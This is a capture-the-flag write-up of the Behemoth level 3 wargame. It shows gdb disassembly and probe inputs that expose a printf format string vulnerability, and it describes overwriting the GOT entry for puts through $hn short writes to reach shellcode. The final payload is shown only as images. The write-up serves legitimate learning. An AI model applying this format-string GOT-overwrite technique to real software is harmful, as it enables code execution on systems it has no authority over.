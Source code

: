 #Behemoth 3

learned skills: write to arbitrary memory address, %n - write the numbers of chracter written, writing the value separately using $hn 

This challenge helped me to learn a lot about different ways to control format string vulnerability.

When I frist examined the binary, I thought of buffer overflow (well hopefully but least likely...)

```
behemoth3@melinda:/behemoth$ gdb behemoth3 -q
Reading symbols from behemoth3...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847d <+0>:	push   %ebp
   0x0804847e <+1>:	mov    %esp,%ebp
   0x08048480 <+3>:	and    $0xfffffff0,%esp
   0x08048483 <+6>:	sub    $0xe0,%esp
   0x08048489 <+12>:	movl   $0x8048570,(%esp)
   0x08048490 <+19>:	call   0x8048330 <printf@plt>
   0x08048495 <+24>:	mov    0x80497a4,%eax
   0x0804849a <+29>:	mov    %eax,0x8(%esp)
   0x0804849e <+33>:	movl   $0xc8,0x4(%esp)
   0x080484a6 <+41>:	lea    0x18(%esp),%eax
   0x080484aa <+45>:	mov    %eax,(%esp)
   0x080484ad <+48>:	call   0x8048340 <fgets@plt>
   0x080484b2 <+53>:	movl   $0x8048584,(%esp)
   0x080484b9 <+60>:	call   0x8048330 <printf@plt>
   0x080484be <+65>:	lea    0x18(%esp),%eax
   0x080484c2 <+69>:	mov    %eax,(%esp)
   0x080484c5 <+72>:	call   0x8048330 <printf@plt>
   0x080484ca <+77>:	movl   $0x804858e,(%esp)
   0x080484d1 <+84>:	call   0x8048350 <puts@plt>
   0x080484d6 <+89>:	mov    $0x0,%eax
   0x080484db <+94>:	leave
   0x080484dc <+95>:	ret
End of assembler dump.
(gdb)
```
well.... fgets.... No buffer overflow :( 
There is printf. Maybe this is format vuln. Lets test it .

```
(gdb) r
Starting program: /games/behemoth/behemoth3
Identify yourself: %x.%x.%x.%x
Welcome, c8.f7fcac20.0.0

aaaand goodbye again.
[Inferior 1 (process 6538) exited normally]
(gdb)
```

Oh dear printf! Now lets figure out where our buffer is.

```
(gdb) r
Starting program: /games/behemoth/behemoth3
Identify yourself: AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x
Welcome, AAAAc8.f7fcac20.0.0.f7ffd000.41414141.252e7825.78252e78.2e78252e

aaaand goodbye again.
[Inferior 1 (process 4016) exited normally]
(gdb)	
```

So it was located at 6th position. 

After that I checkd where the buffer was located after fgets

```
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847d <+0>:	push   %ebp
   0x0804847e <+1>:	mov    %esp,%ebp
   0x08048480 <+3>:	and    $0xfffffff0,%esp
   0x08048483 <+6>:	sub    $0xe0,%esp
   0x08048489 <+12>:	movl   $0x8048570,(%esp)
   0x08048490 <+19>:	call   0x8048330 <printf@plt>
   0x08048495 <+24>:	mov    0x80497a4,%eax
   0x0804849a <+29>:	mov    %eax,0x8(%esp)
   0x0804849e <+33>:	movl   $0xc8,0x4(%esp)
   0x080484a6 <+41>:	lea    0x18(%esp),%eax
   0x080484aa <+45>:	mov    %eax,(%esp)
   0x080484ad <+48>:	call   0x8048340 <fgets@plt>
   0x080484b2 <+53>:	movl   $0x8048584,(%esp)
   0x080484b9 <+60>:	call   0x8048330 <printf@plt>
   0x080484be <+65>:	lea    0x18(%esp),%eax
   0x080484c2 <+69>:	mov    %eax,(%esp)
   0x080484c5 <+72>:	call   0x8048330 <printf@plt>
   0x080484ca <+77>:	movl   $0x804858e,(%esp)
   0x080484d1 <+84>:	call   0x8048350 <puts@plt>
   0x080484d6 <+89>:	mov    $0x0,%eax
   0x080484db <+94>:	leave
   0x080484dc <+95>:	ret
End of assembler dump.
(gdb) b*0x080484b2
Breakpoint 1 at 0x80484b2
(gdb) r
Starting program: /games/behemoth/behemoth3
Identify yourself: AAAA%x.%x.%x.%x.%x.%x

Breakpoint 1, 0x080484b2 in main ()
(gdb) x /40wx $esp
0xffffd5e0:	0xffffd5f8	0x000000c8	0xf7fcac20	0x00000000
0xffffd5f0:	0x00000000	0xf7ffd000	0x41414141	0x252e7825
0xffffd600:	0x78252e78	0x2e78252e	0x252e7825	0x08000a78
0xffffd610:	0xffffd678	0xf7ffda94	0x00000000	0xf7fce2e8
0xffffd620:	0x00000001	0x00000000	0x00000001	0xf7ffd938
0xffffd630:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd640:	0x00000003	0x00000009	0x04c0003f	0x00000000
0xffffd650:	0xffffd704	0xffffd678	0xffffd670	0x08048262
0xffffd660:	0xf7ffd938	0x00000000	0x000000c2	0xf7eb75b6
0xffffd670:	0xffffffff	0xffffd69e	0xf7e2fbf8	0xf7e55f53
(gdb) p 0xffffd5f0+8
$3 = 4294956536
```
In hex, 4294956356 = 0xffffd5fc 

(This was not necessary but I just wanted to see where it was :) )

At this point, I realized that I could overwrite GOT for put and point that to the shellcode.
But there was a problem. Since it was DWORD, I could not write it all at the same time. So I had to spearte into two parts:

First write two lower bytes and then two higher bytes

Here is the final payload:

![Behemoth 3](Photos/Behemoth3.png) 

*To find the address to jump to, I used the paylaod by just writing 6 and 7 characters respecitvely and chose middle of A (junk)
*To write two bytes at a time, I used $hn for short write and simple math (literally typing 0x + last twobytes into python shell and same for higher bytes) 

![Behemoth 3](Photos/Behemoth3-1.png) 

From this point forward, it was trial and error. Even though shell was executed, it seems like it was either not visible or some other problem. So I had to repeat the process until it gave me the shell.


